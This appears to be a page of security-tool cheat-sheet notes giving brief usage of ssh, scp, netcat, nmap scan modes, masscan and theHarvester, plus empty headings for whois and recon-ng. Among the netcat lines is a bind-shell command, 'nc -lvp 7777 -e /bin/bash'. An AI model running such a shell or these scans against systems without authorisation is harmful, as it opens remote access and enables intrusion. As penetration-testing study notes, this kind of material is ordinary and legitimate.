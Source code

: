 ### ssh

```bash
ssh user@host
```

### scp

```bash
scp user@host:/home/user/file.txt destination/
```

### nc

See [cyber/exploitation#nc](../cyber/exploitation.md#nc)

```bash
nc -l -p 4444 #listen for inbound connections, local port
nc 10.8.22.123 4444 #tcp connection to ip and port
nc -lvp 7777 -e /bin/bash #listen, verbose, port, execute
```

<br>
<h1 id="reconnaissance-tools">Reconnaissance tools</h1>

### nmap

```bash
nmap -sn 10.8.22.0/24 #host discovery
nmap -sS -p 1234 10.8.22.0/24 #TCP SYN scan
nmap -sT -p 1234 10.8.22.0/24 #TCP connect scan test connection 3-way-handshake
nmap -sU --top-ports 100 10.8.22.0/24 #UDP scans
nmap -sS -sV 10.8.22.123 #SYN stealth scan, service and version detection
nmap -sS -O 10.8.22.123 #OS detection
nmap -sS -T4 -p 1-1024 10.8.22.123 #timing and performance
nmap -A 10.8.22.123 #OS and version detection, script scanning, traceroute
```

### masscan

```bash
masscan -p0-1024 --interface eth0 172.16.127.0/24
masscan -p -4000 --interface eth0 127.0.0.1
```

### whois

### theHarvester

```bash
theHarvester -d google.com -l 300 -b all #domain, limit, source
```

### recon-ng
